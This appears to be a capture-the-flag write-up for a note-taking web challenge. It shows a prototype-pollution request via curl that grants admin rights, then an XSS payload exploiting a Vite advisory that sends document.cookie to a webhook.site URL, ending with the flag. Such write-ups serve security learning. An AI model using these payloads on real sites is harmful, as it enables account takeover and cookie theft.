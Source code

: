 
# Armoured-notes
## Description

> Can you break my emerging note making app? It is still in beta. I have a feeling that it is not secure enough <br>
> Author - p1r4t3 

## Writeup

On launching the challenge we land at a homepage which has fields for username,password and a note, seems like an ordinary xss?

<hr>

![image](https://github.com/user-attachments/assets/e9ccee82-277f-4621-beb2-3e3a7940838d)

On reading the source provided we get to know that only user with name 'admin' can login with his supersecure password which obviously we can not know as it is a environment variable.

```php
app.post("/create", async (req, res, next) => {
  let obj = duplicate(req.body);

  if (obj.uname === "admin" && obj.pass == process.env. PASSWORD) {
 obj.isAdmin = true; 
 }

  if (obj.isAdmin) {
  const newEntry = req.body;

  try {
  const result = await diaryCollection.insertOne(newEntry); 
  return res.json({ code: result.insertedId }); 
 } catch (err) {
  console.error("Failed to insert entry", err); 
  return res.status(500). json({ code: "err" }); 
 }
 }
  return res.json({ code: "err" });
  });
```

We see that a dangerous duplicate function is being used which copies all properties of request body to another object without checking the keys.
This gives rise to a well known JS vulnerability "Prototype Pollution". Read more about it <a href="https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution">here</a>.

Also on reading the source further we find that before saving the note a special property 'isAdmin' is set to 'True' after which the note gets saved in the database. 
```json
{
"uname":"John",
"pass":"Doe",
"message":"Your note...",
"__proto__": {
        "isAdmin": true
    }
}
```
```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"asdf","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```

After creating the note we get a specific note id and a link to access the note. Suppose we try our old xss payload and go to http://localhost:3000/post/<:id>

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"<script>alert()</script>","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```

On looking further we find a escapeHtml function which doesnot allow any dangerous character to be inserted in the note. So now what?. We look into source futher and we see an interesting function "transformIndexHtml". On reading further about it we can find <a href="https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title"> this </a> . :) Looks like we are done.

Lets give this link to our admin bot :) and get the flag
```bash
?"></script><script>fetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)</script>
```
```bash
http://localhost:3000/posts/657c83681afbebe2ea01432d/?%22%3E%3C/script%3E%3Cscript%3Efetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/e100a892-bff9-4802-929c-4eb44205e201)

9. A ratelimiter was configured to block you from making more than 100 requests in 60 minutes (enough to annoy you :)

```bash
flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```

